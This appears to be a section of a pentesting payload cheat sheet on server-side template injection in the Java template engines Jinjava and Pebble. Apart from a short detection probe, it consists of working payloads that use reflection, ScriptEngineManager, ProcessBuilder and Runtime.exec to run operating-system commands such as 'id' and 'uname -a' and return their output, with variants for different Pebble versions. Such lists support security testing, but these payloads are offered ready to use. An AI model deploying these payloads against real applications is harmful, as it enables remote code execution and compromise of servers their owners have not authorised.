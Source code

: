 #### Jinjava

Detect

```java
{{'a'.toUpperCase()}} would result in 'A'

{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```

Command Execution

```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('id')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"id\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"id\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

#### Pebble

Command execution

(< 3.0.9)

```java
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('id') }}
```

(> 3.0.9)

```java
{% raw %}
{% set cmd = 'id' %}
{% endraw %}

{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```
